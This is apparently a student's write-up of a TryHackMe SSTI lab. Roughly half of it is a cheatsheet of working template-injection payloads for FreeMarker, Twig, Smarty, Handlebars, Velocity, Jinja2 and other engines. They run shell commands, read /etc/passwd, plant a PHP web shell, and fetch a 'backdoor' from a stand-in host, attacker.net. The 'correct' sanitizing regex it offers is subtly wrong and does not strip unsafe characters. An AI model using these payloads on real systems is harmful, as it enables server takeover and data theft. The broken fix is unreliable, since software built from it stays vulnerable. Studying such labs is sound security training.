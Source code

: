 # Report on THM SSTI room 

![completed](completed.png)

<h2>What is SSTI</h2>
Template engines are designed to generate web pages by combining fixed templates with volatile data. 
Server-side template injection attacks can occur when user input is concatenated directly into a template, rather than passed in as data.
This allows attackers to inject arbitrary template directives in order to manipulate the template engine, 
often enabling them to take complete control of the server. 
As the name suggests, server-side template injection payloads are delivered and evaluated server-side,
potentially making them much more dangerous than a typical client-side template injection. 

SSTI basically works because Template Engines can evaluate operations using certain special operators like ```${{<%[%'"}}%\```. 


So if user input is directly passed without sanitization and not in the proper syntax such that only data gets passed, then SSTI vulnerabilities arise.
Eg:

```
from flask import Flask, render_template_string
app = Flask(__name__)

@app.route("/profile/<user>")
def profile_page(user):
    template = f"<h1>Welcome to the profile of {user}!</h1>"

    return render_template_string(template)

app.run()

```


Here input is neither sanitized nor passed only as data .

The correct way should be something like:
            
```
import re

# Remove everything that isn't alphanumeric
user = re.sub("^[A-Za-z0-9]", "", user)
template = "<h1>Welcome to the profile of {{ user }}!</h1>"
return render_template_string(template, user=user)
```

<h2>Exploitation:</h2>

To exploit a SSTI vulnerability we first need to identify the template engine. 
Although there are a huge number of templating languages, many of them use very similar syntax that is specifically chosen not to clash with HTML characters.
 As a result, it can be relatively simple to create probing payloads to test which template engine is being use
The following decision tree can help with this.

![tree](tree.png)

To follow the decision tree, start at the very left and include the variable in your request. Follow the arrow depending on the output:

    Green arrow - The expression evaluated (i.e 49)
    Red arrow - The expression is shown in the output (i.e ${7*7})

But the same payload can sometimes return a successful response in more than one template language. For example, the payload {{7*'7'}} returns 49 in Twig and 7777777 in Jinja2. 
Therefore, it is important not to jump to conclusions based on a single successful response. 

Got this very useful repo while doing this:

https://github.com/swisskyrepo/PayloadsAllTheThings

An excerpt for some common template engines:

```
Cheatsheet

--------------------------------------------------------------------Polyglot:
${{<%[%'"}}%\
--------------------------------------------------------------------FreeMarker (Java):
${7*7} = 49
<#assign command="freemarker.template.utility.Execute"?new()> ${ command("cat /etc/passwd") }
--------------------------------------------------------------------
(Java):
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
${T(java.lang.System).getenv()}
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}
--------------------------------------------------------------------
Twig (PHP):
{{7*7}}
{{7*'7'}}
{{dump(app)}}
{{app.request.server.all|join(',')}}
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
--------------------------------------------------------------------
Smarty (PHP):
{$smarty.version}
{php}echo `id`;{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
--------------------------------------------------------------------Handlebars (NodeJS):
wrtz{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
--------------------------------------------------------------------Velocity:
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
-------------------------------------------------------------------
ERB (Ruby):
<%= system("whoami") %>
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>
--------------------------------------------------------------------
Django Tricks (Python):
{% debug %}
{{settings.SECRET_KEY}}
--------------------------------------------------------------------
Tornado (Python):
{% import foobar %} = Error
{% import os %}{{os.system('whoami')}}
--------------------------------------------------------------------
Mojolicious (Perl):
<%= perl code %>
<% perl code %>
--------------------------------------------------------------------Flask/Jinja2: Identify:
{{ '7'*7 }}
{{ [].class.base.subclasses() }} # get all classes
{{''.class.mro()[1].subclasses()}}
{%for c in [1,2,3] %}{{c,c,c}}{% endfor %}
--------------------------------------------------------------------Flask/Jinja2: 
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
--------------------------------------------------------------------
Jade:
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
--------------------------------------------------------------------
Razor (.Net):
@(1+2)
@{// C# code}
--------------------------------------------------------------------

```

Some payloads used earlier in some challenges:
```
{{request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read()}} - Gives list of files in directory

{{request.application.__globals__.__builtins__.__import__('os').popen('flag.txt').read()}}

{{__self__.__init__.__globals__.__builtins__.__import__('os').popen('flag.txt').read()}}

{% if request.application.__globals__.__builtins__.__import__('os').popen('grep -io flag.*\} ./app/templates/admin.html').read().startswith('" + str(x) + "') %} found {% endif %}
```

Further Refrences:
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
https://github.com/swisskyrepo/PayloadsAllTheThings
